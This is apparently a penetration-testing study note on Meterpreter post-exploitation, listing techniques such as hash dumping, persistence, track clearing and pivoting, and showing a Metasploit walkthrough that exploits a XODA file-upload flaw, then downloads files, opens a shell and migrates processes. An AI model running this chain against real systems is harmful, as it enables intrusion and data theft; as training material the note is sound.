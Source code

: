 ```yaml
---
up: "[[Post Exploitation Fundamentals]]"
---
```


# Meterpreter Fundamentals

- Post Exploitation refers to the actions performed on the target system after initial access has been obtained
- Consists of various techniques:
	- Local Enumeration
	- Privilege Escalation
	- Dumping Hashes
	- Establishing Persistence
	- Clearing you tracks
	- Pivoting

- Meterpreter payload is an advanced multi-functional payload that operates via DLL injection
- Communicates over a stager socket

## Demonstration

```bash
> db_nmap -sV <ip>
# port 80 Apache & 3306 MySQL 
> curl http://<ip>
# title: XODA
> use exploit/unix/webapp/xoda_file_upload
> set TARGETURI /
> run
# meterpreter session
> sysinfo
> getuid
# show help
> help
# background session
> background
> sessions -h
# launch command without entering sessions
> sessions -C sysinfo -i <id>
# name session
> sessions -n <name> -i <id>
> download <file>
# search for files
> search -d /usr/bin -f *backdoor*
> search -f *.jpg
# shell
> shell
ls
/bin/bash -i
$
^C
# list processes
> ps
> migrate <id>
> migrate -N <name>
> execute -f ifconfig
```
